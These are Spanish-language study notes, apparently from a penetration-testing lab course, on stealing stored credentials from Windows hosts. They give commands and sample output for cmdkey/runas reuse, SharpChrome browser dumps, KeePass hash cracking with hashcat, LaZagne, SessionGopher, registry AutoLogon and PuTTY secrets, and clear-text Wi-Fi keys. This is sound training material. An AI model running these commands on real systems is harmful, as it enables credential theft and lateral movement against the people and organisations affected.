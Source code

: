 # Windows Privilege Escalation – Further Credential Theft

Técnicas adicionales para obtener credenciales en Windows, útiles para **movimiento lateral** y **escalada de privilegios**. No cubre todos los métodos posibles, pero sí los más comunes.

---

## 1. Cmdkey – Credenciales Guardadas

### Descripción
- `cmdkey` permite crear, listar y eliminar credenciales almacenadas.
- Se usan para conexiones RDP o servicios remotos sin necesidad de volver a escribir la contraseña.
- Si encontramos credenciales guardadas, podemos reutilizarlas para RDP o ejecutar comandos como otro usuario.

### Comandos
```cmd
cmdkey /list
```
**Ejemplo de salida:**
```
Target: LegacyGeneric:target=TERMSRV/SQL01
Type: Generic
User: inlanefreight\bob
```

Podemos usar `runas` para ejecutar comandos con estas credenciales:

```powershell
runas /savecred /user:inlanefreight\bob "COMMAND HERE"
```

### Uso típico
- Conexión RDP automática.
- Ejecutar binarios, PowerShell o reverse shells con privilegios del usuario almacenado.

---

## 2. Credenciales Guardadas en Navegador

### Chrome y navegadores basados en Chromium
- Los usuarios suelen guardar contraseñas en el navegador.
- Herramienta recomendada: **SharpChrome**.

**Ejemplo:**
```powershell
.\SharpChrome.exe logins /unprotect
```

Salida muestra:
- `username`
- `password`
- `origin_url`

> **Nota:** Esta acción genera eventos que pueden ser detectados por el equipo azul (IDs 4983, 4688 y 16385).

---

## 3. Password Managers (KeePass, 1Password, CyberArk, etc.)

### KeePass
- Archivos `.kdbx` almacenan credenciales localmente.
- Proceso:
  1. Localizar `.kdbx`.
  2. Extraer hash usando `keepass2john`.
  3. Crackear con `hashcat`.

**Extracción:**
```bash
python2.7 keepass2john.py ILFREIGHT_Help_Desk.kdbx > keepass_hash
```

**Crackeo con Hashcat:**
```bash
hashcat -m 13400 keepass_hash rockyou.txt
```

Si se crackea → acceso a múltiples credenciales críticas (servidores, bases de datos, etc.).

---

## 4. Búsqueda en Emails – Microsoft Exchange

- Usar [MailSniper](https://github.com/dafthack/MailSniper) para buscar términos como `pass`, `creds`, `credentials` en bandejas de entrada.
- Puede revelar credenciales compartidas o notas internas con contraseñas.

---

## 5. LaZagne – Recuperación Masiva de Credenciales

### Descripción
- Herramienta para recuperar contraseñas de múltiples aplicaciones:
  - Navegadores
  - Bases de datos
  - Herramientas de administración
  - Wi-Fi
  - Autologon, DPAPI, LSA secrets, etc.

### Uso
Ver ayuda:
```powershell
.\lazagne.exe -h
```

Ejecutar todos los módulos:
```powershell
.\lazagne.exe all
```

Ejemplo de salida:
```
Winscp passwords:
  URL: transfer.inlanefreight.local
  Login: root
  Password: Summer2020!

Credman passwords:
  URL: dev01.dev.inlanefreight.local
  Login: jordan_adm
  Password: !QAZzaq1
```

---

## 6. SessionGopher – Credenciales de Herramientas Remotas

### Descripción
- Extrae credenciales guardadas en **PuTTY, WinSCP, FileZilla, RDP, SuperPuTTY**.
- Busca y descifra información en el registro (`HKEY_USERS` y `HKEY_CURRENT_USER`).

### Uso
```powershell
Import-Module .\SessionGopher.ps1
Invoke-SessionGopher -Target WINLPE-SRV01
```

Ejemplo:
- Detecta sesiones de PuTTY y WinSCP con host, usuario y contraseña almacenados.

---

## 7. Contraseñas en Registro (Registry)

### Windows AutoLogon
- Permite login automático guardando usuario y contraseña en claro.
- Ubicación:
```
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon
```

Claves relevantes:
- `AutoAdminLogon`
- `DefaultUserName`
- `DefaultPassword`

Comando para enumerar:
```cmd
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```

### PuTTY
- Credenciales guardadas de proxy:
```
HKCU\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

Comandos:
```powershell
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions
reg query HKEY_CURRENT_USER\SOFTWARE\SimonTatham\PuTTY\Sessions\<SESSION NAME>
```

Ejemplo de credencial encontrada:
```
ProxyUsername    REG_SZ    administrator
ProxyPassword    REG_SZ    1_4m_th3_@cademy_4dm1n!
```

---

## 8. Contraseñas de Wi-Fi

### Ver redes guardadas
```cmd
netsh wlan show profile
```

### Obtener clave
```cmd
netsh wlan show profile <SSID> key=clear
```

Salida muestra `Key Content` con la contraseña en claro.

---

## 9. Otros Métodos y Herramientas

- **Buscar credenciales en emails internos.**
- **LSA Secrets, DPAPI** (requiere privilegios elevados).
- **Combinar LaZagne y SessionGopher** para máxima cobertura.
- Revisar archivos de configuración (`.rdp`, `.ppk`, etc.) en disco.

---

## Claves

- Muchas credenciales se guardan en **texto plano** o cifrado débil.
- Recuperarlas puede permitir:
  - Escalada de privilegios local.
  - Movimiento lateral en la red.
  - Acceso a infraestructuras críticas (servidores, bases de datos, etc.).
